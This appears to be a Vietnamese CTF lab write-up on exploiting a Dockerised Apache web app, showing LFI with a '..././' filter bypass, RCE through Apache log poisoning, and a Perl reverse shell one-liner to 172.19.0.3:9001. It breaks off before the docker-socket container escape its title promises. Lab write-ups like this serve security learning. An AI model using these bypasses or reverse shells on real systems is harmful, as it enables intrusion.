 # Writeup Docker Lab (Docker container escape via docker socket)

## Giao diện bài lab  
![alt text](image.png)

> Trông khá đơn giản nhỉ
Đầu tiên mình recon xem web có những path nào , ở đây mình dùng dirsearch 

![alt text](image-2.png)

Thấy có .htaccess thì web server ở đây là apache và thấy có *"/include"* 

![alt text](image-3.png)  
biết được thêm nó chạy *"Apache/2.2.52 Unbuntu"* và các file này chắc là được include vào 

![alt text](image-4.png)  
và hình như điều đó là đúng , nếu là include file thì maybe LFI(Local File Inclusion), và mình thấy nó *"include\pathfile" vì nãy mình dirsearch thấy nó có folder include*

Thử đọc */etc/passwd* xem sao  
![alt text](image-5.png)  
Có vẻ author đã filter, thử các đường dẫn mà quyền các user bình thường có xem được (Vì apache chạy dưới quyền www-data)  
Ví dụ như  :   /etc/group , /etc/hotst , /etc/motd , /proc/mounts , /proc/net/arp 

![alt text](image-6.png)  
Có vẻ đã bị filter hết rồi :>>>

Thử với :/etc/fstab : , chứa các mount point để khi hệ thống khởi động lên sẽ mount với device 

![alt text](image-8.png)  
Nhưng mà không có thông báo detecd hacking , thì khả năng author filter bằng blacklist   

![alt text](image-9.png)  
Thử *?file=../include/home.php* mà không được thì khả năng là ../ không được thực thi , có vẻ author cũng sẽ filter cái này  
![alt text](image-10.png)  
Thử bypass bằng ..././ và bypass =>  filter "../" bằng "" 

Thử độc /etc/fstab như trên xem được không  ? 

![alt text](image-11.png)  

Tiếp tục với  /etc/mtab là một tập tin trong hệ thống Linux và Unix, chứa thông tin về các file hệ thống được gắn kết (mounted) vào hệ thống tại thời điểm hiện tại. 

![alt text](image-12.png)

Có vẻ web server này đang được chạy trên docker 

Tiếp đó mình tiến hành fuzzing thử xem :
Payload mình lấy ở đây :  
[Payload](https://gist.github.com/SleepyLctl/63a2da730a3d5abce5013f0f510b1fe2)

Sau khi chạy 1 hồi thì mình thấy mình có thể đọc được file log của apache => Từ đó mình có thể RCE qua đây  
![alt text](image-13.png)

![alt text](image-14.png)  
![alt text](image-15.png)  
mình đã thực thi được lệnh giờ thì tìm flag thôi 

```js
find / -type f -name flag.txt
```

![alt text](image-16.png)

![alt text](image-17.png) 

Tiến hành reverse shell 
kiểm tra xem nó hỗ trợ các loại nào 
![alt text](image-18.png)

Payload reverse shell  
```js
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.19.0.3:9001");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![alt text](image-20.png)

![alt text](image-21.png)
Chúng ta đang dứới quyền www-data của apache 

Kiểm tra tiếp container này đang hỗ trợ loại shell nào ? 
```js
cat /etc/shells
```
![alt text](image-22.png)  

Shell của mình ở đây bị hạn chế interact nên mình sẽ tìm cách lên fully iteractive shell 